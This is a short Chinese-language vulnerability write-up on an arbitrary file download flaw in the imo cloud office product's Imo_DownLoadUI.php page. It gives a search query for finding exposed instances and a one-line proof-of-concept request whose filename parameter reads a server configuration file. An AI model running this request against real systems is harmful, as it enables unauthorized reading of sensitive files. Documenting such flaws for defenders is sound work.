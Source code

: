 # imo 云办公室 Imo_DownLoadUI.php 任意文件下载漏洞

## 漏洞描述

imo 云办公室 由于 /file/Placard/upload/Imo_DownLoadUI.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
imo 云办公室
```

## 网络测绘

```
app="iMO-云办公室"
```

## 漏洞复现

登录页面

![image-20220524171455819](images/202205241714963.png)

验证POC

```
/file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php
```

![image-20220524171627797](images/202205241716860.png)